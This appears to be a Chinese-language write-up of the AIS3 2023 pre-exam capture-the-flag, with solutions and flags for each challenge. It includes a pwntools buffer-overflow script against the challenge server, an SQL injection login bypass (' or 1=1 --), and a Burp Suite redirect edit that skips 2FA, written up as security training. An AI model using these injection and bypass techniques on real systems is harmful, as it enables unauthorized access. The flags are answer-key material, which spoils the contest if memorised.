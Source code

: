 # AIS3 2023 pre-exam writeup


<br>
    
## Misc
---

- ### Welcome

開啟welcome.pdf，並參考提示。

**flag**:
```
AIS3{WELCOME-TO-2023-PRE-EXAM-&-MY-FIRST-CTF}
```

  
- ### Robot

`nc chals1.ais3.org 12348` 後回答問題，最後得出**flag**:
```
AIS3{don't_eval_unknown_code_or_pipe_curl_to_sh}  
```
<br>
    
## Pwn
---

- ### Simply Pwn

使用IDA pro 反編譯，發現可以利用buffer overflow，填入79個字元後buffer被填滿，此時可以使其跳到chellcode位置(0x4017a5)，並傳入指令 `cat ./FLAG`，程式碼如下:

```
from pwn import *

p = remote("chals1.ais3.org", 11111)


payload = b"A" * 79 
payload += p64(0x4017a5)  
p.sendline(payload)
f='cat ./FLAG'
p.sendline(f)
response = p.recvline()


print(response)


p.interactive()

```
得到**flag:**
```
AIS3{5imP1e_Pwn_4_beGinn3rs!}
```

<br>

## Web
---

- ### Login Panel

先使用Username:`guset`，Password:`guset`，查看結構。
發現網頁會先跳到2fa頁面，再進入Dashboard，且其告知:
Only admin can see the flag.

查看app.js，發現可以利用injection，Username:`admin`，Password:`' or 1=1 --`進入2fa頁面，但Submit時出現Invalid code。

利用Burp Suite更改response的封包，將 `Location: /2fa?msg=invalid_code` 改為 `Location: /dashboard`。

成功進入 admin 的 dashboard，得到**flag**:
```
 AIS3{' UNION SELECT 1, 1, 1, 1 WHERE ({condition})--}
```     
<br> 
    
## Reverse 
---

- ### Simply Reverse
使用 IDA pro 反編譯，發現程式檢查最後輸入:`encrypted[i] == (((i ^ j)) << ((i ^ 9) & 3) | ((i ^ j)) >> (8 - ((i ^ 9) & 3))) + 8`

使用暴力破解回推，但發現有的字元無法回推到明文，推測是加密後的值超過16bits，但程式中的encrypted只記錄後16bits。

故修改程式碼，若16bit無法找到明文，便往上從17個bits開始檢查，程式碼如下:
```

encrypted = [0x8A, 0x50, 0x92, 0xC8, 0x06, 0x3D, 0x5B, 0x95, 0xB6, 0x52, 0x1B, 0x35, 0x82, 0x5A, 0xEA, 0xF8,
0x94, 0x28, 0x72, 0xDD, 0xD4, 0x5D, 0xE3, 0x29, 0xBA, 0x58, 0x52, 0xA8, 0x64, 0x35, 0x81, 0xAC, 0x0A, 0x64]

a1 = [0] * len(encrypted)
i = 0

while i < 34:
for j in range(256):
if encrypted[i] == (((i ^ j)) << ((i ^ 9) & 3) | ((i ^ j)) >> (8 - ((i ^ 9) & 3))) + 8:
a1[i] = j
break
while a1[i] == 0:
encrypted[i] += 0x100
for j in range(256):
if encrypted[i] == (((i ^ j)) << ((i ^ 9) & 3) | ((i ^ j)) >> (8 - ((i ^ 9) & 3))) + 8:
a1[i] = j
break

i += 1
a1 = ''.join(chr(num) for num in a1)
print(a1) 
```

得到**flag**:
```
AIS3{0ld_Ch@1_R3V1_fr@m_AIS32016!}
```

- ### Flag Sleeper

使用IDA pro 反編譯，發現程式在`a2[1][v7] == (v10[v6] ^ v9[v6]) ` 的條件之下才會執行sleep()。
故推測值為0~52的`v8[]`為明文的index，故將`v10[] ^ v9[]`後依`v8[]`的值排列，程式碼如下:
```
v8 = [10, 12, 28, 7, 38, 31, 47, 44, 42, 35, 48, 30, 21, 11, 17, 16, 34, 40, 33, 39, 41, 9, 22, 4, 6, 20, 19, 46, 23, 45, 26, 0, 15, 3, 8, 43, 14, 5, 2, 27, 49, 1, 51, 36, 37, 24, 25, 50, 32, 13, 29, 18]
v9 = [212, 232, 164, 28, 253, 132, 194, 47, 46, 150, 96, 216, 121, 216, 140, 164, 49, 219, 147, 252, 201, 28, 9, 188, 155, 79, 133, 255, 104, 20, 87, 64, 147, 143, 68, 147, 142, 96, 165, 244, 62, 58, 119, 25, 61, 56, 71, 182, 7, 37, 1, 154]
v10  = [237, 217, 212, 40, 149, 219, 165, 112, 29, 241, 8, 189, 13, 224, 211, 149, 5, 184, 255, 207, 162, 122, 86, 199, 170, 122, 240, 206, 9, 102, 102, 1, 163, 188, 119, 225, 239, 3, 246, 153, 9, 115, 10, 70, 94, 103, 52, 137, 97, 29, 109, 208]
v11=[0]*60

for i in range(len(v8)):
    x = v8[i]
    v11[x]=v10[i]^v9[i]

v11 = ''.join([chr(i) for i in v11])
print(v11)

```

得到**flag**:
```
AIS3{c143f9818a01_Ju5t_a_s1mple_fl4g_ch3ck3r_r1gh7?}
```    
<br>
      
## Crypto
---

- ### Fernet

檢查 `chal.py` 的 `encrypt()`，其步驟如下:

1. 其使用 leak_password 和 salt 透過 PBKDF2 和 SHA256 生成一個 32 byte 的 key。
2. 然後使用生成的key 作為 Fernet 的參數。
3. 將明文編碼，並使用 Fernet() 後的值對其進行加密，得到密文。
5. 將 salt 和密文連接，並進行 Base64 編碼，得到最終的密文。

反推程式碼如下:
```
import base64
from cryptography.fernet import Fernet
from Crypto.Hash import SHA256
from Crypto.Protocol.KDF import PBKDF2

def decrypt(ciphertext, password):
    decoded_data = base64.b64decode(ciphertext.encode())
    salt = decoded_data[:16]
    ciphertext = decoded_data[16:]
    key = PBKDF2(password.encode(), salt, 32, count=1000, hmac_hash_module=SHA256)
    f = Fernet(base64.urlsafe_b64encode(key))
    plaintext = f.decrypt(ciphertext).decode()
    return plaintext

ciphertext = "iAkZMT9sfXIjD3yIpw0ldGdBQUFBQUJrVzAwb0pUTUdFbzJYeU0tTGQ4OUUzQXZhaU9HMmlOaC1PcnFqRUIzX0xtZXg0MTh1TXFNYjBLXzVBOVA3a0FaenZqOU1sNGhBcHR3Z21RTTdmN1dQUkcxZ1JaOGZLQ0E0WmVMSjZQTXN3Z252VWRtdXlaVW1fZ0pzV0xsaUM5VjR1ZHdj"
leak_password = "mysecretpassword"


plaintext = decrypt(ciphertext, leak_password)
print(plaintext)

```

得到**flag**:
```
FLAG{W3lc0m3_t0_th3_CTF_W0rld_!!_!!!_!}
```
